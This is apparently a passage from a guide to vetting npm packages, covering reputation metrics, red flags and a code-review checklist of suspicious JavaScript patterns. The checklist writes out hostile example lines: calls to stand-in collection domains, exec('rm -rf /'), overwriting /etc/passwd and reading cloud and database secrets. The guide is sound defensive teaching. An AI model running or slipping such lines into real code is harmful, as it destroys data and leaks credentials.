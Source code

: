 #### B. Reputation Assessment

**Check These Metrics:**
- **Weekly Downloads**: Be cautious of packages with <1000 weekly downloads
- **Maintenance Status**: Last updated within 6 months
- **GitHub Repository**: Active repository with recent commits
- **Issue Response Time**: How quickly maintainers respond to issues
- **Community Engagement**: Number of contributors and their activity

#### C. Code Quality Indicators

**Red Flags:**
- Obfuscated or minified code in source files
- Unusual network requests or file system operations
- Binary files without clear purpose
- Dependencies that seem unrelated to functionality
- Lack of comprehensive documentation

### 2. Deep Package Inspection

#### Manual Code Review Checklist

```javascript
// Look for suspicious patterns:

// 1. Network requests to unknown domains
fetch('http://suspicious-domain.com/collect')
require('http').get('http://malicious-site.com')

// 2. File system operations
require('fs').writeFileSync('/etc/passwd', data)
require('child_process').exec('rm -rf /')

// 3. Environment variable access
process.env.AWS_SECRET_KEY
process.env.DATABASE_PASSWORD

// 4. Dynamic code execution
eval(someVariable)
Function(dynamicCode)()
require('vm').runInThisContext(code)

// 5. Encoded or obfuscated strings
atob('c29tZXRoaW5nIHN1c3BpY2lvdXM=')
Buffer.from(encodedData, 'base64')
```

#### Automated Analysis Tools

```bash
# Install security analysis tools
npm install -g @socketdev/cli
npm install -g audit-ci
npm install -g better-npm-audit

# Run comprehensive security scan
socket npm audit <package-name>
audit-ci --moderate
better-npm-audit
```

---